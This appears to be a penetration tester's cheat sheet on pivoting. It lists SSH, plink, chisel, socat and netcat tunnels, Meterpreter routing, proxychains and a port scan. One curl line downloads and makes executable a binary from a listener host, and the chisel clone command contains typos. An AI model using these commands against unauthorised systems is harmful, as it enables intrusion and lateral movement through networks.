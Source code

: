 # Pivoting

### Single reverse port forwarding

```bash
plink.exe -l root -pw password -R 445:127.0.0.1:445 <listener_ip>
ssh -l root -pw password -R 445:127.0.0.1:445 <listener_ip>
```

### Single Local port forwarding

```bash
ssh -l root -pw password -L 445:127.0.0.1:445 <target>
```

### Dynamic port forwarding

Socks proxy (socks5) 

```bash
ssh -l root -pw password -D 1234 <target>

# Reverse dynamic 
ssh -R 1234 <target>
```

Double SSH tunnel

```bash
ssh <1st_target> -L 2222:<2nd_target>:22
ssh localhost -p 2222 -D 1234
```

### Proxychains

```bash
# Choose any tools to create a socks proxy 
ssh <target> -D 1234

# Configure proxychains.conf with the protocl and port you chose for the socks proxy
sudo vim /etc/proxychains.conf 
	quiet_mode				   # enable this 
	socks5	127.0.0.1 1234     # change this

#Use any tool prepending the proxychains command :
proxychains wpscan --url <url> 
wpscan --url <url> --proxy socks5://127.0.0.1:1234 --force

# For nmap, you need to specify the -Pn and -sT arguments
proxychains nmap -sT -Pn <target>
```
> You can also forward a single port to avoid using a socks proxy, or use sshuttle


### SSHuttle

transparent proxy over ssh

```sh
# sudo apt-get update && sudo apt-get install sshuttle
sshuttle -r <target_ip>:22 <target_network>/24
```

---

### Meterpreter

```sh
#Socks Proxy
run autoroute -s <target_network>/24
use auxiliary/server/socks4a
exploit -j

# Port forward
portfwd add -l 3389 -p 3389 -r <target>
```

### Plink

```sh
plink.exe -l root -pw password -R 445:127.0.0.1:445 <listener_ip> [-P <listener_port>] 
```

### [Chisel](https://github.com/jpillora/chisel)

Socks proxy over SSH for Windows

```sh
git clone git clone https://github.com/jpilloria/chisel && cd chisel && go build && go build -ldflags="-s -w" && upx build chisel && chmod +x chisel
./chisel client <listener_ip>:10000 R:4506:127.0.0.1:4506
chisel server -p 10000 --reverse
```

### Socat

```sh
curl -sL http://<listener_ip>:1234/socat -o /tmp/socat && chmod +x /tmp/socat && cd /tmp

# remote forward : redirect all trafic coming from TCP 4506 to remote host
socat TCP-LISTEN:4506,reuseaddr,reuseport,fork,bind=<listener_ip> TCP:<remote_ip>:4506

# localhost forward : redirect all trafic coming from TCP 80 to TCP 5000
socat TCP-LISTEN:80,fork TCP:127.0.0.1:5000

```

### Netcat

```sh
nc -v -lk -p 8001 -e /usr/bin/nc 127.0.0.1 8000
nc.traditional -l -p 8001 -c "nc 127.0.0.1 8000"
```

### [ReGeorg](https://github.com/sensepost/reGeorg)

Socks proxy over web

## Scan 

[PortqryUI](https://www.microsoft.com/en-us/download/details.aspx?id=24009)

```sh
. .\Invoke-Portscan.ps1
Invoke-Portscan -Hosts <target>,<target2>
```

